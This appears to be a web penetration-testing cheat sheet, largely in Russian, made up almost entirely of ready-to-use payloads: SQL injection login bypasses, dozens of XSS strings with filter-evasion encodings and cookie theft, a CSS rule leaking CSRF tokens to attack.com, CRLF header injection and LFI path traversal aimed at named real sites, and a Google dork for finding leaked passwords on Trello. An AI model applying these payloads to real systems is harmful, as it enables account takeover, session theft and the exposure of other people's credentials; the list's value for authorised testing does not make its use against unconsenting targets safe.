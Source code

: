 **SQL**

a - (Строковой входящий параметр) 
php?id=1'
php?id=1' —
b - (Числовой входящий параметр)
php?id=1 blablabla
php?id=-1
c - (Авторизация)
Под ником 'Admin' нам нужно вписать вместо него что то наподобие этого Admin' — 
Уязвимость в поле 'pass'
123' OR login='Admin' — 
d - (Оператор LIKE)
Вместо пароля просто ввести "%"

**XSS**

'":;<>/\[]<script><h1>
  
'';!--"<XSS>=&{()}

< - &lt;
> - &gt;
& - &amp;
" - &quot;
' - &#039;

: - %3A
/ - %2F

<script>alert(5)</script>

"><script>alert(5)</script>

;alert()

<a href="javascript:alert(1)">

NULL <scri%00pt>alert()</scri%00pt>

TAB <svg+src="jav%09ascript:alert(1)">

Newline <script>//>%0Aalert(1);</script>

Carriage Return <script>//>%0Dalert(1);</script>

Spaces < s c r i p t > p r o m t ( 1 ) < / s c r i p t >

/#text= NAME'); alert(document.cookie+'

reflected XSS - /?report=javascript
%3aalert(document.domain)

php?email='-alert(document.domain)-'

<script>\u0061\u006C\u0065\u0072\u0074(I)</script>

<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />

"><img src=x onerror=prompt(1);>

<script>a="get";b="URL";c="javascript:";d="alert(1);";eval(a+b+c+d);</script>

<form action="javascript:alert(document.location);"><input type="submit" /></form>

<iframe src="//www.youtube.com/embed/Ik9fCVkKeLg" frameborder="0" style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">

<div style="background:url('javascript:alert(1)')">

input[name=csrf_token][value=^a]{background-image:url('http://attack.com/log.php?a');}

XSS с помощью css:
<style>img{background-image:url('javascript:alert(1)')}</style>

Обход фаерволов:
<style>*{background-image:url('\6A\61\76\61\73\63\72\69\70\74\3A\61\6C\65\72\74\28\6C\6F\63\61\74\69\6F\6E\29')}</style>

Polyglot XSS - Mathias Karlsson
" onclick=alert(document.cookie)//<button ‘ onclick=alert(document.cookie)//> */ alert(1)//

**Authentication bypass**

В процессе аутентификации при доступе к веб-сайту, посетив ссылку для отмены подписки.
PHPSESSID=xxx;

**Link filter protection bypass**

?url=site%E3%80%82com

**CRLF Injection**

GET /qwerty%0ASet-Cookie:%20test=qwerty;domain=.beepcar.ru HTTP/1.1

**robots.txt**

Disallow - Запрет доступа всех роботов 
Allow - Разрешает доступ к определенной части ресурса

**LFI**

/index.php?file=/../../../../../../etc/passwd 

file=/../../../../../../etc/passwd.php%00 

file=/../../../../../../etc/passwd%00.php 

index.txt при условии, что приписывается окончание .php 
index.txt/././././../...«(100-10)/2 раз».../././ 

php://filter/convert.base64-encode/resource=index 
http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index

**google dork**

«site:trello.com AND intext:@gmail\.com AND intext:password»
